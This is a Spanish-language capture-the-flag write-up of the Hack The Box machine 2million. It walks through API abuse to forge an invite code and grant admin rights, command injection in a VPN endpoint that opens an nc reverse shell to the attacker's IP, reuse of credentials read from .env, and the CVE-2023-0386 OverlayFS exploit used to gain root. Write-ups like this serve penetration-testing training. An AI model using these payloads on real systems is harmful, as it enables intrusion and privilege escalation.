




## Información Básica

### Técnicas vistas

- Building a Python3 Stealth port scanner with Scapy
- Abusing declared Javascript functions from the browser console
- Abusing the API to generate a valid invite code
- Abusing the API to elevate our privilege to administrator
- Command injection via poorly designed API functionality
- Information Leakage
- Privilege Escalation via Kernel Exploitation (CVE-2023-0386) - OverlayFS Vulnerability

### Preparación

- eWPT
- OSWE

---

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.229.66 -oG nmap/allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Ahora con la función **extractPorts** (_Función de S4vitar_), extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```bash
nmap -sVC -p22,80 10.129.229.66 -oN nmap/targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2million.htb



Vemos que nos redirige `2million.htb`, nos encotramos un endpoint interesante de invitaciones:



Viendo las solicitudes, encontramos una a `http://2million.htb/js/inviteapi.min.js` con el siguiente código:

```javascript
eval(
  (function (p, a, c, k, e, d) {
    e = function (c) {
      return c.toString(36)
    }
    if (!"".replace(/^/, String)) {
      while (c--) {
        d[c.toString(a)] = k[c] || c.toString(a)
      }
      k = [
        function (e) {
          return d[e]
        },
      ]
      e = function () {
        return "\\w+"
      }
      c = 1
    }
    while (c--) {
      if (k[c]) {
        p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c])
      }
    }
    return p
  })(
    '1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',
    24,
    24,
    "response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify".split(
      "|"
    ),
    0,
    {}
  )
)
```

## Invite Code Generation

Está claramente obfuscado, usaremos la página [unPacker](https://matthewfl.com/unPacker.html) para deofuscarlo:

```javascript
function verifyInviteCode(code) {
  var formData = {
    code: code,
  }

  $.ajax({
    type: "POST",
    dataType: "json",
    data: formData,
    url: "/api/v1/invite/verify",
    success: function (response) {
      console.log(response)
    },
    error: function (response) {
      console.log(response)
    },
  })
}

function makeInviteCode() {
  $.ajax({
    type: "POST",
    dataType: "json",
    url: "/api/v1/invite/how/to/generate",
    success: function (response) {
      console.log(response)
    },
    error: function (response) {
      console.log(response)
    },
  })
}
```

Si hacemos una solicitud `POST` a esta ruta:

```bash
❯ curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    249   0    249   0      0    771      0                              0
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

Si buscamos sobre **ROT13** es una manera de encriptación donde cada letra se desplaza 13 veces en el alfabeto. Hay webs como esta [rot13.com](https://rot13.com/), que nos lo desencripta:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Esto nos genera un código en Base 64 que desencriptaremos fácil:

```bash
❯ curl -X POST http://2million.htb/api/v1/invite/generate | jq
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100     91   0     91   0      0    505      0                              0
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "UUxaTzctQlZCWjktVlJDV0UtV0UxWUo=",
    "format": "encoded"
  }
}
❯ echo "UUxaTzctQlZCWjktVlJDV0UtV0UxWUo=" | base64 -d
QLZO7-BVBZ9-VRCWE-WE1YJ
```

## Dashboard

Ahora nos creamos una cuenta nueva y accedemos al dashboard:



Generando una VPN en la plataforma, nos damos cuenta de que tenemos una API en la ruta `http://2million.htb/api/v1`:



Revisando algunas rutas, podemos convertirnos en admin con ``:

```bash
❯ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 44354 
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Fri, 19 Jun 2026 20:12:17 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
{"status":"danger","message":"Missing parameter: email"}

❯ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v --data '{"email":"alejandro@bolado.es"}'
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 35756 
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> Content-Length: 31
> 
* upload completely sent off: 31 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Fri, 19 Jun 2026 20:12:43 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
{"status":"danger","message":"Missing parameter: is_admin"}

❯ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v --data '{"email":"alejandro@bolado.es","is_admin":true}'
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 48922 
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> Content-Length: 47
> 
* upload completely sent off: 47 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Fri, 19 Jun 2026 20:12:58 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}

❯ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v --data '{"email":"alejandro@bolado.es","is_admin":1}'
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 48938 
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> Content-Length: 44
> 
* upload completely sent off: 44 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Fri, 19 Jun 2026 20:13:01 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
{"id":13,"username":"Alejandro","is_admin":1}
```

# Explotación

## www-data

Por lo que parece nos hemos convertido en admins. Investigando el endpoint de VPN de admins, vemos un **Command Injection** en el parámetro `username`:

```bash 
❯ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v --data '{"username":"Alejandro && curl http://10.10.15.143"}'
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 34996 
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> Content-Length: 52
> 
* upload completely sent off: 52 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Fri, 19 Jun 2026 20:31:30 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb:80 left intact
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.66 - - [19/Jun/2026 22:31:30] "GET / HTTP/1.1" 200 -
```

Vemos que tenemos conectividad, vamos a enviarnos una reverse shell:

```bash
❯ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=v20h4258su1t9pleamdevhfbeb" --header "Content-Type: application/json" -v --data '{"username":"Alejandro && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.15.143 8888 >/tmp/f"}'
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.229.66
*   Trying 10.129.229.66:80...
* Established connection to 2million.htb (10.129.229.66 port 80) from 10.10.15.143 port 60292 
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.19.0
> Accept: */*
> Cookie: PHPSESSID=v20h4258su1t9pleamdevhfbeb
> Content-Type: application/json
> Content-Length: 104
> 
* upload completely sent off: 104 bytes
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.66 - - [19/Jun/2026 22:31:30] "GET / HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
❯ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.15.143] from (UNKNOWN) [10.129.229.66] 58866
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
www-data
```

## admin

Reconociendo un poco la máquina, encontramos unas credenciales para el usuario `admin` en un `.env`, además comprobamos que ese usuario existe:

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun 19 20:40 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Jun 19 20:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$ cat /etc/passwd | grep admin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```

Vamos a intentar loguearnos:

```bash
www-data@2million:~/html$ su admin
Password: 
admin@2million:/var/www/html$ cd $home
admin@2million:~$ ls
user.txt
admin@2million:~$ cat user.txt 
e8ab4b9f69fb476b4210c0...
```

# Escalada de privilegios

## /var/mail

Buscando vectores de ataque encontramos un correo interesante en la ruta `/var/mail/admin`:

```txt
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Buscando vulnerabilidades de `OverlayFS / FUSE` encontramos este [CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386), siguiendo los pasos clonamos el repositorio en la máquina víctima, ejecutamos `make all` y seguimos en 2 terminales:

```bash title="Terminal 1"
admin@2million:/tmp/10.10.14.53/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
mkdir: File exists
[+] readdir
[+] getattr_callback
/file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
```

```bash title="Terminal 2"
admin@2million:/tmp/10.10.14.53/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root root 4096 Jun 21 14:21 .
drwxrwxr-x 6 root root 4096 Jun 21 14:21 ..
[+] exploit success!
sh: 1: ./ovlcap/upper/file: Permission denied
admin@2million:/tmp/10.10.14.53/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun 21 14:21 .
drwxrwxr-x 6 root   root     4096 Jun 21 14:21 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/10.10.14.53/CVE-2023-0386# whoami
root
```

Ahora simplemente leemos la flag:

```bash
root@2million:/tmp/10.10.14.53/CVE-2023-0386# cat /root/root.txt 
df6f44b16e9a46333...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/547)

---
